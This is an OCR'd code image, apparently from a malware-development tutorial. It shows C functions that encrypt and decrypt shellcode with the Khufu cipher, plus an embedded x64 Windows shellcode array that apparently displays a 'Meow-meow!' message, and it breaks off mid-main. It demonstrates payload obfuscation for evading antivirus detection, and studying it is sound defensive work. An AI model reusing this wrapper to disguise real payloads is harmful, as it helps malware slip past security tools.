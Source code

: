 ```cpp
void khufu_encrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    khufu_encrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
  unsigned char pad[BLOCK_SIZE] = {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
  memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, remaining);
  khufu_encrypt(pad, key);
  memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, remaining);
  }
}

void khufu_decrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    khufu_decrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
  unsigned char pad[BLOCK_SIZE] = {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
  memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, remaining);
  khufu_decrypt(pad, key);
  memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, remaining);
  }
}

int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + (8 - my_payload_len % 8) % 8;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);
  memcpy(padded, my_payload, my_payload_len);

  printf("original shellcode: ");
```